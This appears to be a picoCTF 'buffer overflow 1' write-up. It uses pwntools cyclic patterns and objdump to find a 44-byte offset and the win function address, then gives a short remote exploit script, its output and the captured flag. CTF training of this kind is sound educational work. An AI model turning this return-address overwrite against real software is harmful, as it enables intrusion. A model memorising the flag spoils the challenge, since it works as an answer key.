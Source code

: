 # buffer overflow 1

## Objetivo

Control the return address
Additional details will be available after launching your challenge instance.

## Solución

```python
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

```bash
hone@unidad03:~/buffer_overflow_1$ ./vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c
```

```python
>>> cyclic_find(0x6161616c)
44
```

```bash
>>> 'x'*44
'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
```

```bash
hone@unidad03:~/buffer_overflow_1$ objdump -D vuln -M intel | grep 'win'
080491f6 <win>:
 804922c:	75 2a                	jne    8049258 <win+0x62>
```

```python
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
```

Se crea al siguiente codigo en python

```python
from pwn import *

p = remote('saturn.picoctf.net',51855)

cadena = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx\xf6\x91\x04\x08'

p.sendline(cadena)

p.interactive()
```

Despues se pone en funcionamiento.

```bash
hone@unidad03:~/buffer_overflow_1$ python3 expo.py 
[+] Opening connection to saturn.picoctf.net on port 51855: Done
/home/hone/Documentos/Materias/Seguridad_Redes_Sistemas/problemas-hacking/picoCTF/binary_explotation/2022/buffer_overflow_1/expo.py:7: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(cadena)
[*] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_9cf083f8}[*] Got EOF while reading in interactive
$ 
```

Bandera: *picoCTF{addr3ss3s_ar3_3asy_9cf083f8}*

## Referencias
